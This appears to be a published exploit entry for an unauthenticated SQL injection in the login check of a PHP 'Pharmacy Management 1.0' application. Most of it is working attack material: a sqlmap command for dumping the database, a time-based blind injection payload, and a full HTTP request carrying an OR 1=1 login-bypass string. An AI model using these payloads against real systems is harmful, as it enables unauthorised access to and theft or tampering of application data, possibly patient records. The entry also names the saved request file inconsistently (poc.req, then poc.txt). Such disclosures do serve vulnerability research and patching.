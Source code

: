 # Pharmacy Management System - 'uname , pswd' SQL Injection (Unauthenticated)

1. Description:
----------------------

Pharmacy Management 1.0 allows SQL Injection via parameter 'uname , pswd' in
/Pharmacy-Management/php/validateCredentials.php Exploiting this issue could allow an attacker to compromise
the application, access or modify data, or exploit latent vulnerabilities
in the underlying database.


2. Proof of Concept:
----------------------

In Burpsuite intercept the request from the affected page with
'uname , pswd' parameter and save it like poc.req. Then run SQLmap to extract the
data from the database:

sqlmap -r poc.txt --dbms=mysql


3. Example payload:
----------------------

time-based blind
Payload: action=is_admin&pswd=3&uname=test' AND (SELECT 6097 FROM (SELECT(SLEEP(5)))eTQx) AND 'sZpk'='sZpk


4. Burpsuite request:
----------------------

GET /Pharmacy-Management/php/validateCredentials.php?action=is_admin&pswd=3&uname=Test%27%20OR%201%3d1%20OR%20%27ns%27%3d%27ns HTTP/1.1<br>
Host: localhost<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8<br>
Accept-Encoding: gzip, deflate<br>
Accept-Language: en-us,en;q=0.5<br>
Cache-Control: no-cache<br>
Cookie: PHPSESSID=v0ueat0ma15mnsfmo6o187spcd<br>
Referer: http://localhost/Pharmacy-Management/<br>
User-Agent: Mozilla/5.0 (Windows NT 10.0; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.0 Safari/537.36<br>




